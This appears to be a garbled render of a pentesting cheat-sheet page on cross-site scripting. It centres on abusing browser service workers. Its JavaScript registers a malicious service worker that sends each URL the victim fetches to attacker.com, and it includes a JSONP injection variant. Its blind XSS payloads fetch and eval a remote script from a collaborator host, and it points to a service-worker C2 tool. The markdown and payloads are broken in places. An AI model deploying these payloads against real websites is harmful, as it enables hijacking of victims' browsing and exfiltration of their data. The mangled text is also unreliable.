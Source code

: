 &#x20;**\`\`\` ### XSS - Abusing Service Workers A service worker is a \*\*script\*\* that your browser \*\*runs\*\* in the \*\*background\*\*, separate from a web page, opening the door to features that don't need a web page or user interaction. \\(\[More info about what is a service worker here]\(https://developers.google.com/web/fundamentals/primers/service-workers)\\). The goal of this attack is to \*\*create service workers\*\* on the \*\*victim session\*\* inside the \*\*vulnerable\*\* web \*\*domain\*\* that grant the \*\*attacker control\*\* over \*\*all the pages\*\* the \*\*victim\*\* will load in \*\*that domain\*\*. In order to exploit this vulnerability you need to find: \* A way to \*\*upload arbitrary JS\*\* files to the server and a \*\*XSS to load the service worker\*\* of the uploaded JS file \* A \*\*vulnerable JSONP request\*\* where you can \*\*manipulate the output \\(with arbitrary JS code\\)\*\* and a \*\*XSS\*\* to \*\*load the JSONP with a payload\*\* that will \*\*load a malicious service worker\*\*. In the following example I'm going to present a code to \*\*register a new service worke\*\*r that will listen to the \`fetch\` event and will \*\*send to the attackers server each fetched URL\*\* \\(this is the code you would need to \*\*upload\*\* to the \*\*server\*\* or load via a \*\*vulnerable JSONP\*\* response\\): \`\`\`javascript self.addEventListener('fetch', function(e) { e.respondWith(caches.match(e.request).then(function(response) { fetch('https://attacker.com/fetch\_url/' + e.request.url) }); \`\`\` And this is the code that will \*\*register the worker\*\* \\(the code you should be able to execute abusing a \*\*XSS\*\*\\). In this case a \*\*GET\*\* request will be sent to the \*\*attackers\*\* server \*\*notifying\*\* if the \*\*registration\*\* of the service worker was successful or not: \`\`\`javascript**\
**window.addEventListener('load', function() {**\
**var sw = "/uploaded/ws\_js.js";**\
**navigator.serviceWorker.register(sw, {scope: '/'})**\
&#x20; **.then(function(registration) {**\
&#x20;   **var xhttp2 = new XMLHttpRequest();**\
&#x20;   **xhttp2.open("GET", "https://attacker.com/SW/success", true);**\
&#x20;   **xhttp2.send();**\
&#x20; **}, function (err) {**\
&#x20;   **var xhttp2 = new XMLHttpRequest();**\
&#x20;   **xhttp2.open("GET", "https://attacker.com/SW/error", true);**\
&#x20;   **xhttp2.send();**\
&#x20; **});**\
**});**\
&#x20;**\`\`\` In case of abusing a vulnerable JSONP endpoint you should put the value inside \`var sw\`. For example: \`\`\`javascript var sw = "/jsonp?callback=onfetch=function(e){ e.respondWith(caches.match(e.request).then(function(response){ fetch('https://attacker.com/fetch\_url/' + e.request.url) }) )}//"; \`\`\` There is \*\*C2\*\* dedicated to the \*\*exploitation of Service Workers\*\* called \[\*\*Shadow Workers\*\*]\(https://shadow-workers.github.io/) that will be very useful to abuse these vulnerabilities. ### Polyglots \{% embed url="https://github.com/carlospolop/Auto\\\_Wordlists/blob/main/wordlists/xss\\\_polyglots.txt" %\} ### Blind XSS payloads \`\`\`markup ">**![](https://github.com/boitatech/hacktricks/tree/14ead4a6929a3874c3681cbe46d7279d0916673d/domain/xss) **"> >Click Me For An Awesome Timefunction b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//0mnb1tlfl5x4u55yfb57dmwsajgd42.burpcollaborator.net/scriptb");a.send(); "> ">">**

">

">

$.getScript("//domain")

">![](https://github.com/boitatech/hacktricks/tree/14ead4a6929a3874c3681cbe46d7279d0916673d/pentesting-web/xss-cross-site-scripting/x)
